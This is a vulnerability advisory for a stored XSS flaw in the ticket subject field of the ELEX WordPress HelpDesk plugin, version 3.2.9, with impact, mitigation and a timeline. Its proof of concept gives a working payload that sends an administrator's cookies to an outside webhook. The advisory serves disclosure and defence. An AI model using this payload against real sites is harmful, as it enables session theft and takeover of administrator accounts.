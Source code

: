 # Stored XSS in ELEX WordPress HelpDesk & Customer Ticketing System (v3.2.9)

**CVE ID:** Pending  
**Discovered:** 2025-08-09  
**Reporter:** [Your Name or Handle]  
**Status:** Vendor notified, patch pending  
**Severity:** High  
**CWE:** [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

---

## Description

A **Stored Cross-Site Scripting (XSS)** vulnerability exists in **ELEX WordPress HelpDesk & Customer Ticketing System** version **3.2.9**.  
The vulnerability occurs due to the application's failure to properly sanitize user input in the **ticket subject field** before rendering it in the administrator ticket view.

An attacker can exploit this flaw by injecting malicious JavaScript code into the ticket subject. When an administrator visits the ticket management panel, the injected script executes in the admin's browser within the context of the WordPress site. This can lead to **cookie theft, session hijacking, or full compromise of the administrator account**.

---

## Affected Product

- **Plugin Name:** ELEX WordPress HelpDesk & Customer Ticketing System  
- **Version:** 3.2.9  
- **Vulnerability Type:** Stored XSS  
- **Impact:** Administrator account compromise, session hijacking, theft of sensitive information  
- **Authentication Required:** Not required (depending on site configuration — the issue is exploitable if ticket submission is allowed for unauthenticated users)

---

## Proof of Concept (PoC)

> **Note:** This PoC is provided for educational and testing purposes only. Do not use against systems without proper authorization.

1. Access the ticket submission form provided by the plugin.  
   (If the site allows public submissions, no authentication is required. Otherwise, log in as a low-privileged user.)

2. In the **Subject** field of the ticket form, insert the following payload:
"<img src=x onerror="(new Image).src='https://webhook.site/3bdce340-f98e-4d53-9d40-f93c94df619a?c='+encodeURIComponent(document.cookie)">"

3. Submit the ticket.

4. When an administrator logs in to the WordPress admin panel and navigates to:
WSDesk → Ticket
the ticket subject is rendered without proper sanitization.

5. The payload executes immediately — even without the admin opening the ticket — sending the admin's cookies to the attacker's webhook.

## Impact
Successful exploitation allows an attacker to:

- Execute arbitrary JavaScript in the administrator’s browser.

- Steal administrator cookies or session tokens.

- Perform actions on behalf of the administrator (privilege escalation).

- Potentially gain full control of the WordPress site.

## Mitigation
Until a patch is released, it is recommended to:

- Restrict ticket submission to authenticated and trusted users only.

- Sanitize and escape all user input before rendering in HTML.

- Use WordPress functions like esc_html() and wp_kses() when outputting dynamic content.

## Timeline
2025-08-09 — Vulnerability discovered.
2025-08-09 — Vendor notified.
Pending — Vendor response.
Pending — CVE assignment.

## References

CWE-79: https://cwe.mitre.org/data/definitions/79.html

OWASP XSS Prevention Cheat Sheet: https://owasp.org/www-community/xss-prevention

